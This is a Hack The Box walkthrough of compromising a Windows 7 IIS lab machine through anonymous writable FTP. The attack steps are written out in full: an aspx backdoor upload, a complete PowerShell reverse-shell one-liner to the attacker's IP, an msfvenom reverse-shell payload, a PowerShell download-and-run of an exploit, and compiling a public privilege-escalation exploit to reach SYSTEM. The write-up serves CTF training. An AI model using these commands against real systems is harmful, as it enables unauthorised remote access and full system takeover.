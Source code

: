 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

## Information Gathering

### Openning Services

+ Microsoft ftpd allow anonymous
+ Microsoft IIS httpd 7.5

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.5
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 21,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.5 -p21,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 21:39 +07
Nmap scan report for 10.10.10.5
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.77 seconds
```

### Microsoft ftpd

Login to ftpd service with anonymous account, server was sharing web service's folder and allow put permission on it.

``` bash
┌──(Hades㉿10.10.14.3)-[6.4:19.0]~
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

This folder also allow put file to server.

``` bash
ftp> put hades.txt
local: hades.txt remote: hades.txt
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
17 bytes sent in 0.00 secs (436.8832 kB/s)
```

Query file `hades.txt` via web service

``` bash
┌──(Hades㉿10.10.14.3)-[5.5:19.9]~
└─$ curl 10.10.10.5/hades.txt                      
leecybersec.com
```

## Foothold

### Aspx Backdoor

Put file `backdoor.aspx` to web service's folder vi ftp service

```
ftp> put backdoor.aspx
local: backdoor.aspx remote: backdoor.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1661 bytes sent in 0.00 secs (11.0773 MB/s)
```

Run command `whoami` using the backdoor

![](images/2.png)

Using `Powershell` to get reverse shell in the server.

``` powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.3',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

``` bash
┌──(Hades㉿10.10.14.3)-[5.6:28.5]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.5] 49159

PS C:\windows\system32\inetsrv> whoami
iis apppool\web
```

### Aspx Revershell

Create reverse shell with `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 EXITFUNC=thread -f aspx > rev.aspx
```

Upload file `rev.aspx` to web server using ftp service and execute this file.

```
curl 10.10.10.5/rev.aspx
```

![](images/4.png)

## Privilege Escalation

### Vulnerability in Ancillary Function Driver

Server is Windows 7 and OS Version: 6.1.7600 N/A Build 7600, there are vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege in this server

```
c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
System Type:               X86-based PC
```

![](images/5.png)

Download this exploit [40564](https://www.exploit-db.com/exploits/40564) and compile to binary execution.

```
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Upload `40564.exe` and using ftp service and execute it.

``` bash
ftp> binary
200 Type set to I.
ftp> put 40564.exe
local: 40564.exe remote: 40564.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
250562 bytes sent in 0.81 secs (302.3399 kB/s)
```

```
c:\inetpub\wwwroot>whoami
whoami
iis apppool\web

c:\inetpub\wwwroot>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

Also upload with `fileupload.aspx` or `powershell`.

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/40564.exe','C:\Users\Public\shell.exe')"
```

```
c:\Users\Public>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\Users\Public

<snip>
01/04/2021  12:10 ��           250.562 shell.exe

               1 File(s)        250.562 bytes
               8 Dir(s)  22.278.094.848 bytes free

c:\Users\Public>shell.exe
shell.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

Execute `40564.exe` using smb share file

``` bash
//10.10.14.3/public/40564.exe
```
![](images/7.png)